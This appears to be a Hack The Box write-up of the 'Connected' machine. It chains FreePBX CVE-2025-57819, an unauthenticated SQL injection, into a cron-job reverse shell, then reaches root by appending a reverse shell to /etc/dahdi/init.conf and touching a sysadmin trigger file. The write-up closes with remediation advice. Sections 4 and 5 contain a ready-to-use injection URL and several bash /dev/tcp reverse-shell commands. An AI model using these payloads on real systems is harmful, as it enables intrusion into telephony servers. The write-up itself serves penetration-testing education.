






# Write-Up — Connected: FreePBX Auth Bypass + SQL Injection (CVE-2025-57819) to Root via Sysadmin Trigger Files

> **Type:** Network / Web Application / Linux Penetration Test (HTB)
> **Target:** `10.129.168.52` (`connected.htb`)
> **Tools:** Nmap, whatweb, searchsploit, watchTowr CVE-2025-57819 exploit, curl, netcat
> **Final Result:** Root access via FreePBX's unauthenticated SQL injection → cron-job RCE (CVE-2025-57819), escalated to root by abusing the FreePBX sysadmin module's unauthenticated "trigger file" restart mechanism

---

## 1. Introduction

The target hosts a **FreePBX** (Asterisk-based VoIP management) web interface. The objective was to identify the FreePBX version and known vulnerabilities, gain code execution via an unauthenticated SQL injection chained into a cron-job RCE primitive, and escalate from the low-privilege `asterisk` service account to root.

This box is a strong, realistic demonstration of a disclosed 2025 vulnerability chain against real telephony infrastructure software:

- **CVE-2025-57819** — an unauthenticated SQL injection in FreePBX's `ajax.php` endpoint, exploitable to insert arbitrary rows into the `cron_jobs` table, which Asterisk's cron daemon then executes as the `asterisk` user.
- **An unauthenticated "sysadmin trigger file" mechanism** — FreePBX's `sysadmin` module watches a directory for empty marker files (`dahdi_restart`, `reboot`, etc.) and, on seeing one appear, runs the corresponding privileged restart action as **root**. Since `/etc/dahdi/init.conf` was both world-writable from the `asterisk` context and sourced/executed as part of that restart routine, appending a reverse-shell payload to it and then touching the trigger file results in root-level code execution.

---

## 2. Reconnaissance

### 2.1 Port Scan

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.168.52 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.168.52
```

```
PORT    STATE    SERVICE  VERSION
22/tcp  open     ssh      OpenSSH 7.4 (protocol 2.0)
80/tcp  open     http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-title: 301 Moved Permanently
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
443/tcp filtered https
```

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | SSH | OpenSSH 7.4 |
| 80/tcp | HTTP | Apache 2.4.6 (CentOS), PHP 7.4.16 |
| 443/tcp | HTTPS | filtered |

### 2.2 Identifying the Application

```bash
whatweb http://connected.htb
```

```
http://connected.htb [302 Found] Apache[2.4.6], PHP[7.4.16], RedirectLocation[/admin]
http://connected.htb/admin [301] Title[301 Moved Permanently] RedirectLocation[/admin/]
```

The redirect chain to `/admin/config.php` confirmed a **FreePBX** administration panel.



### 2.3 Visiting the Portal

```bash
echo "10.129.168.52 connected.htb" | sudo tee -a /etc/hosts
```

Browsing to `http://connected.htb/admin/config.php` presented the standard FreePBX landing page, offering **FreePBX Administration**, **User Control Panel**, **Operator Panel**, and **Get Support** portals, along with a **FreePBX 16.0.40.7** version footer and Sangoma branding.



### 2.4 Checking for Known Vulnerabilities

```bash
searchsploit FreePBX
```

```
FreePBX 16 -  Remote Code Execution (RCE) (Authenticated)                   | php/webapps/52031.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                      | php/webapps/18650.py
FreePBX 13.0.35 - SQL Injection                                             | php/webapps/40312.txt
```

Given the confirmed version (16.0.40.7), a web search for recent disclosures turned up **CVE-2025-57819**, a far more severe, **unauthenticated** SQL injection to RCE chain publicly documented by watchTowr Labs — a better fit than any of the older, lower-impact Exploit-DB entries.

---

## 3. Vulnerability Analysis — CVE-2025-57819

### 3.1 The Vulnerability

- **CVE:** CVE-2025-57819
- **Type:** Unauthenticated SQL injection in FreePBX's `ajax.php` endpoint (`endpoint` module), chained into arbitrary `cron_jobs` table insertion
- **Authentication:** None required
- **Impact:** Arbitrary command execution as the `asterisk` user, achieved by inserting a malicious entry into Asterisk's own cron table

FreePBX's endpoint-configuration AJAX handler builds a SQL query using attacker-controlled `brand`/`model`/`template` parameters without proper sanitization. Because the endpoint is reachable **without authentication**, an attacker can inject arbitrary SQL — including an `INSERT INTO cron_jobs` statement. FreePBX's own cron-processing daemon periodically reads this table and executes any enabled job as the `asterisk` system user, turning a SQL injection into a reliable, scheduled remote code execution primitive.

### 3.2 Automated Exploitation (watchTowr Detection Artifact Generator)

```bash
git clone https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819.git
cd watchTowr-vs-FreePBX-CVE-2025-57819
python3 watchTowr-vs-FreePBX-CVE-2025-57819.py -H http://connected.htb
```

```
(*) CVE-2025-57819 Detection Artifact Generator: FreePBX Auth Bypass + SQL Injection to RCE
  - Piotr and Sonny of watchTowr

[+] FreePBX CVE-2025-57819 Detection Artifact Generator started
[+] Sending exploit request
[+] Waiting 2 minutes for DAG script to be created
[+] VULNERABLE - webshell found: http://connected.htb/this-is-an-ioc-not-actually-watchTowr-aas9aearoc.php?cmd=hostname
[+] Cleaning malicious cron_job entry from asterisk.cron_jobs table
```

```bash
curl 'http://connected.htb/this-is-an-ioc-not-actually-watchTowr-aas9aearoc.php?cmd=id'
```

```
uid=999(asterisk) gid=1000(asterisk) groups=1000(asterisk)
```



The tool's own cron-cleanup step is worth noting — because this is a **detection artifact generator**, it tidies up the malicious cron row after proving exploitability. For an actual foothold, the same underlying injection technique was reused manually (see Section 4) to plant a *persistent* reverse-shell cron job instead.

---

## 4. Initial Access — Manual SQLi / Cron Injection (Reverse Shell)

For a more hands-on, fully understood approach (rather than relying on the automated tool's one-shot webshell), the same injection point was exploited manually to insert a cron job that fires a reverse shell directly.

### 4.1 Starting a Listener

```bash
nc -lvnp 4444
```

### 4.2 Sending the Malicious Request

```bash
curl -s "http://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=test&model=test&brand=test'%3BINSERT%20INTO%20cron_jobs%20(modulename,jobname,command,class,schedule,max_runtime,enabled,execution_order)%20VALUES%20('sysadmin','rce','bash%20-c%20%22bash%20-i%20>%26%20/dev/tcp/<ATTACKER_IP>/4444%200>%261%22',NULL,'*%20*%20*%20*%20*',30,1,1)%20--%20-"
```

Breaking down the injected SQL (URL-decoded):

```sql
test'; INSERT INTO cron_jobs
  (modulename, jobname, command, class, schedule, max_runtime, enabled, execution_order)
VALUES
  ('sysadmin', 'rce', 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"', NULL, '* * * * *', 30, 1, 1)
-- -
```

The `brand` parameter's closing quote terminates the intended string literal, the semicolon starts a second stacked query, and the `INSERT` adds a new row directly into `cron_jobs` with a schedule of `* * * * *` — i.e., **every minute** — and `enabled=1`, ensuring Asterisk's cron processor picks it up on its very next run.



### 4.3 Catching the Shell

Within up to 60 seconds (one cron cycle), the injected job fired:

```
listening on [any] 4444 ...
connect to [10.10.16.133] from (UNKNOWN) [10.129.168.52] 45136
bash: no job control in this shell

  ______                   ______ ______ __   __
 |  ___|                  | ___ \| ___ \\ \ / /
 | |_    _ __   ___   ___ | |_/ /| |_/ / \ V /
 |  _|  | '__| / _ \ / _ \|  __/ | ___ \ /   \
 | |    | |   |  __/|  __/| |    | |_/ // /^\ \
 \_|    |_|    \___| \___|\_|    \____/ \/   \/

Current Network Configuration
| eth0   | A2:DE:AD:27:85:65 | 10.129.168.52             |
```

### 4.4 User Flag

```bash
cat /home/asterisk/user.txt
```

```
d8d0d1cdc28cf8e3ad19c69b2262c547
```



> **Severity: Critical.** A single unauthenticated HTTP request against a production VoIP management panel resulted in a reliable, scheduled remote code execution primitive — no credentials, no social engineering, no prior access required.

---

## 5. Privilege Escalation — FreePBX Sysadmin Trigger Files

### 5.1 Discovering the Trigger Mechanism

Enumeration of the FreePBX installation revealed a directory used by the **sysadmin** module to coordinate privileged maintenance actions:

```bash
ls -la /var/spool/asterisk/sysadmin/
```

```
total 4
-rw-rw-r--. 1 asterisk asterisk 0 Sep  8  2021 amportal_restart
-rw-rw-r--. 1 asterisk asterisk 0 Sep  8  2021 dahdi_restart
-rw-rw-r--. 1 asterisk asterisk 0 Sep  8  2021 reboot
-rw-rw-r--. 1 asterisk asterisk 0 Sep  8  2021 restart_httpd
    ... (30 trigger files total)
```

These empty files are **watched by a root-privileged background process** (part of the FreePBX `sysadmin` module). When a file like `dahdi_restart` is touched/updated, the sysadmin daemon treats it as a signal to re-run the corresponding DAHDI (telephony hardware abstraction layer) restart routine — **as root**. Critically, these marker files are writable by the low-privileged `asterisk` account, meaning any user in that context can request a privileged restart action at will.

### 5.2 Identifying the Injectable Configuration

```bash
ls -l /etc/dahdi/init.conf
```

```
-rw-r--r--. 1 asterisk asterisk 771 Jun  5  2023 /etc/dahdi/init.conf
```

This configuration file — read and sourced as part of the DAHDI restart routine that the trigger file above initiates — was **writable by the `asterisk` account**, despite the restart action itself running with root privileges. This is the classic shape of a privilege escalation primitive: a privileged process trusts a file that an unprivileged user can modify.

### 5.3 The Vulnerability

- **Type:** Privileged action triggered by an unprivileged-writable marker file, combined with a root-executed configuration file that is itself unprivileged-writable
- **Authentication:** Local shell access as `asterisk` (already obtained)
- **Impact:** Arbitrary command execution as root

### 5.4 Exploiting the Trigger

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.133/4545 0>&1"' >> /etc/dahdi/init.conf
touch /var/spool/asterisk/sysadmin/dahdi_restart
```

Appending the reverse shell payload to `init.conf` ensures it is executed when the DAHDI restart routine processes the file. Touching `dahdi_restart` signals the root-privileged sysadmin watcher to immediately kick off that restart routine.

### 5.5 Catching the Root Shell

```bash
nc -lvnp 4545
```

```
connect to [10.10.16.133] from (UNKNOWN) [10.129.168.52] 51142
```

```bash
id
```

```
uid=0(root) gid=0(root) groups=0(root)
```



### 5.6 Root Flag

```bash
cd root
ls
cat root.txt
```

```
9d75308ef3e0f59f8bb54060a806eec3
```

> **Severity: Critical.** A root-privileged maintenance watcher trusted both an unprivileged-writable trigger file *and* an unprivileged-writable configuration file it would go on to execute — a textbook privileged-file-trust escalation, requiring no exploit code, only file permissions awareness.

---

## 6. Full Attack Chain

```
[ Recon: Nmap → SSH (22), Apache/FreePBX (80) ]
       │
       ▼
[ whatweb + browser → FreePBX 16.0.40.7 confirmed via /admin/config.php ]
       │
       ▼
[ searchsploit → older FreePBX CVEs found, CVE-2025-57819 identified as the real fit ]
       │
       ▼
[ watchTowr exploit run → unauthenticated SQLi confirmed → webshell RCE as asterisk ]
       │
       ▼
[ Manual SQLi cron injection: INSERT INTO cron_jobs via ajax.php ]
       │
       ▼
[ Cron fires within 60s → reverse shell as asterisk → user.txt read ]
       │
       ▼
[ /var/spool/asterisk/sysadmin/ trigger files discovered ]
       │
       ▼
[ /etc/dahdi/init.conf found writable by asterisk, executed by root restart routine ]
       │
       ▼
[ Payload appended to init.conf → dahdi_restart touched ]
       │
       ▼
[ Root-privileged sysadmin watcher executes init.conf → root reverse shell ]
       │
       ▼
[ root.txt read ]
```

**Lesson:** The foothold leveraged a genuinely severe, recently disclosed CVE in widely deployed telephony software — proof that "legacy-feeling" enterprise software (VoIP/PBX systems) remains an active, high-value target. The privilege escalation, by contrast, required no CVE at all: just methodical enumeration of what the `asterisk` account could write to, and recognizing that a root-run maintenance process trusted both ends of that write access.

---

## 7. Remediation Summary

| # | Finding | Severity | Remediation |
|---|---------|----------|--------------|
| 1 | FreePBX 16.0.40.7 vulnerable to CVE-2025-57819 (unauthenticated SQLi to RCE) | **Critical** | Apply the official FreePBX security patch/module update addressing CVE-2025-57819 immediately. Restrict access to `/admin/ajax.php` at the network layer for any FreePBX instance that doesn't need to be internet-facing. |
| 2 | `ajax.php` endpoint-configuration parameters (`brand`, `model`, `template`) not parameterized before use in SQL queries | **Critical** | Use parameterized queries/prepared statements throughout the FreePBX codebase for all database access built from HTTP parameters. |
| 3 | Asterisk's `cron_jobs` table is both writable via an unauthenticated web endpoint and automatically executed by a cron processor | **High** | Enforce strict input validation/allowlisting on any data that ultimately reaches a scheduled-execution table; consider requiring a secondary integrity check (e.g., a signature) before a cron entry is honored. |
| 4 | FreePBX `sysadmin` trigger files in `/var/spool/asterisk/sysadmin/` are writable by the low-privileged `asterisk` account, yet drive root-privileged actions | **Critical** | Restrict write access to sysadmin trigger files to a dedicated, non-service-facing administrative account; the `asterisk` runtime account should never be able to request privileged maintenance actions on its own behalf. |
| 5 | `/etc/dahdi/init.conf` is writable by the `asterisk` account despite being executed as part of a root-privileged restart routine | **Critical** | Any configuration file executed or sourced by a privileged process must be owned by and writable only by a privileged account. Audit all files touched by root-run restart/maintenance routines for weak permissions. |

---

## 8. Conclusion

This box is a compact illustration of two principles that remain highly relevant in production environments running specialized appliance-style software:

1. **VoIP/PBX platforms are high-value, actively targeted infrastructure.** CVE-2025-57819 demonstrates that FreePBX — software running real business telephony — can be fully compromised, unauthenticated, from the internet, with consequences well beyond a typical CMS bug.
2. **Privilege escalation is frequently a permissions-modeling failure, not a software vulnerability.** No CVE was needed for root — just a root-privileged watcher process that trusted both a marker file and a configuration file that an unprivileged service account could freely write to.

The fix, as with most findings of this class, is layered: patch disclosed CVEs in appliance software promptly (and don't assume "it's just a phone system" means it's lower risk), parameterize every database query built from user input, and never let a privileged automation process trust a file an unprivileged account can modify.
